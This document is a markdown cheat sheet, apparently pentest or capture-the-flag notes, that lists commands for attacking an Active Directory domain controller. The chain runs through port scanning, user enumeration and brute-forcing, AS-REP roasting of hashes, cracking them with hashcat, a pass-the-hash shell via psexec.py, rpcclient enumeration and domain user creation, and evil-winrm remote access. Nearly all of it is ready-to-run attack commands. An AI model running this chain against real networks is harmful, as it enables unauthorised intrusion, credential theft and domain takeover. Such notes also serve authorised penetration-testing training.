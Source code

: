 ### Nmap Scan 
- `nmap -p 53,135,139,88,389,445,464,593,636,3268,3269,5985,9389,49676,49696,49674,49675,49667,49666 -sV -sC -T16 -Pn -oA $IP $IP`

### Get Domain name
- `smbmap -H $IP`

### Get user's list
- `GetADUsers.py $DOMAIN.local/ -dc-ip $IP -debug`

### Brute-force users on Domain
- `kerbrute userenum -d $DOMAIN.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt — dc $IP`

### Enumerate shares
- `smbclient -L \\\\$IP -N`

### Get Hashes
- `GetNPUsers.py '$DOMAIN' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip $IP`

### Crack Hashes
- `hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt — force`

### Shell
`psexec.py -hashes '$HASH' dc-ip $IP $User@$IP`

### rpcclient
- `rpcclient -U "" -N $DOMAIN` Connect to rpcclient
- `enumdomusers` Enumerate Domain Users
-  `queryuser $RID` Enumerate User
- `enumdomgroups` Enumerate Domain Groups
- `getdomwinfo` Domain Password Information 
- `createdomuser $NAME` ,`setuserinfo2 $NAME 24 $PASSWORD` Creating Domain User

<!-- -->
[Enumerating AD with rpcclient](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

### BloodHound
starting BloodHound
- `sudo neo4j console`
- `bloodhound`
 <!-- -->
 
 Credentials
- `Username: neo4j`
- `Password: BloodHound`

<!-- -->

### Misc
- `smbmap -H $IP` list Samba shares
- `ruby evil-winrm.rb -i $IP -u $USER -p $PASS`
- `pwsh` to run powershell on kali